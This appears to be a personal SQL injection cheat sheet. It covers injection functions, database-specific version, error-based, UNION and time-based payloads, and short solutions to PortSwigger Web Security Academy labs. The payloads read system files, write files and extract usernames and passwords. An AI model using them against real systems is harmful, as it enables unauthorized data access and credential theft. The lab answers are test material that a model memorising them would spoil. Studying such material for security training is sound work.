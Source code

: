 ## Common tools¶

    * Burp Suite: Introduction to Burp Suite

    * Tamper Data (Firefox addon)

    * HackBar (Firefox addon)

    * sqlmap: sqlmap user manual

## Injecting common parameters¶

    user(): current database user
    database(): current database name
    version(): the currently used database version
    @@datadir: database storage data path
    concat(): Union data used to combine two data results. Such as concat(username,0x3a,password)
    group_concat(): Similar to concat(), such as group_concat(DISTINCT+user, 0x3a, password), used to inject multiple pieces of data at once
    concat_ws(): usage is similar
    hex() and unhex(): for hex encoding and decoding
    load_file(): Read the file as text. In Windows, the path is set to \\
    select xxoo into outfile &#39;path&#39;: can write files directly when the permission is high


## Finding the Database Version
**MySQL and MSSQL** 
`',nickName=@@version,email='` <br>
**For Oracle** 
`',nickName=(SELECT banner FROM v$version),email='`<br>
**For SQLite** 
`',nickName=sqlite_version(),email='`

## Error-Based
* `CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    WHEN conditionN THEN resultN
    ELSE result
END;`
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* `CAST((SELECT example_column FROM example_table) AS int)`
* * Oracle 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
  * Microsoft 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
  * PostgreSQL 	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
  * MySQL 	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `


### Extra
* `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='` 

* `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

* `',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`
* `2 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4 fRoM information_schema.schemata-- `

### Portswigger Lab Solution

************Lab 1:************

[`https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--`](https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--)

In short: `‘ or 1=1—`

************Lab 2:************

Username: administrator’—

password: anything

************Lab 3:************

[`https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--`](https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--)

In short: `‘union select null,null,null—`

************Lab 4:************

`' union select null,'snEL3e',null—`

************Lab 5:************

`' union select username, password from users—`

************Lab 6:************

`' union select null,username || '~' || password from users—`

************Lab 7:************

`' union select banner,null from v$version—`

************Lab 8:************

`' union select null,@@version#`

************Lab 9:************

`' union select table_name,null from information_schema.tables—`

`' union select column_name,null from information_schema.columns where table_name = 'users_nrdogg'—`

`' union select username_rkwgpt,password_vkiejw from users_nrdogg—`

**************Lab 10:**************

`' union select table_name,'null' from all_tables—`

`‘ union select column_name,null from all_tab_columns where table_name=’USERS_AFMITF’—`

`' union select USERNAME_PZTRWZ,PASSWORD_GTYDKD from USERS_AFMITF—`

**************Lab 11:**************

Test by injecting the following code to the cookie value:

`…xyz and 1=1` It should take you to the welcome page

`…xyz and 1=0` It won’t take you to the welcome page

If those codes show desired outputs, the website is vulnerable to SQL Injection

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a’`--

If it shows a welcome page, there is a table called users

`' and substring((select 'a' from users where username='administrator'),1,1)='a'—`

If it shows a welcome page, there is an user named administrator

https://www.youtube.com/watch?v=LBG_n9fr8sM

**************Lab 14:**************
<br>  <br>
`TrackingId=' || pg_sleep(10)-- -`

**Lab 15:**

Use “Response Received” column from intruder and use it to sort the characters that took the most time


## CheatSheets
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Advanced SQL Injection](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
* [CTF-Wiki](https://ctf-wiki.mahaloz.re/web/sqli/)
